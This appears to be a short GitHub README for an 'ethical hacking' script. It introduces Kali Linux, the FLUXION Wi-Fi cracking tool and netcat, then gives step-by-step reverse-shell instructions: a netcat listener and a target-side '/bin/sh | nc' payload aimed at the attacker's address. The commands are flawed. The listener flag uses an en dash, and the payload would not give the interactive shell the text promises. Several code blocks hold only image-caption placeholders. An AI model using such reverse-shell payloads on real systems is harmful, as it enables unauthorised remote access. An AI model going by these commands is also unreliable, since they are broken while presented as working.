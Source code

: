 # Python-Ehtical-Hacking

You need to have these two tools to run trhe script

## 1) Kali Linux OS –
Kali Linux is one of the best operating system based on UNIX having more than 1000s of pre-installed tools based on network/forensics/webapp etc. Kali Linux is an open source OS having monolithic type kernel and available in both 32-bit and 64-bit architecture.

There are so many automated cracking tools are there to crack into wi-fi networks like Gerix Wi-Fi Cracker and Fern Wi-Fi Cracker but all are limited to only WEP and WPA based networks but the tool which we’ll discuss is FLUXION is developed in python and usually used to crack WPA2-PSK based networks. DentaFlux is the developer who developed this awesome wi-fi cracking tool.

## 2) NetCat
Netcat is a command in Linux which is used to perform port listening, port redirection, port checking, or even network testing. Netcat is also called a swiss army knife of networking tools. This command is also used to create a reverse shell. Before getting in depth of reverse shell one must be aware of what exactly is netcat tool. To know more, you can go through the article netcat command.

Generally, in order to hack into a system, an attacker tries to gain shell access to execute the malicious payload commands. The gained shell is called the reverse shell which could be used by an attacker as a root user and the attacker could do anything out of it. During the whole process, the attacker’s machine acts as a server that waits for an incoming connection, and that connection comes along with a shell.

Creating Reverse Shells
### 1. Setup a listener: The very first step is to set up a listener on the attacker’s machine in order to act as a server and to listen to the incoming connections. Use the following command to start listening.
```shell
nc –nlvp 5555
```
Replace the port number 5555 with the port you want to receive the connection on.
```shell
netcat-listen
```


This will start the listener on the port 5555.

### 2. Receive connection along with a shell from target: Now as we have started listening, it’s time to execute a basic payload at the target so that we could get a reverse shell. Use the following command to send the request to the attacker.
```shell
/bin/sh | nc 127.0.0.1 5555
```
Replace 127.0.0.1 with the host IP of the attacker and 5555 with the attacker’s port.
```shell
netcat-connect
```
This will give a reverse shell to the attacker which attacker could use to execute any command.

### 3. Executing a command through shell: Now if we enter any command at the receiver’s terminal the output would be displayed on the attacker’s terminal.
```shell
netcat-live-reverse-shell
```shell
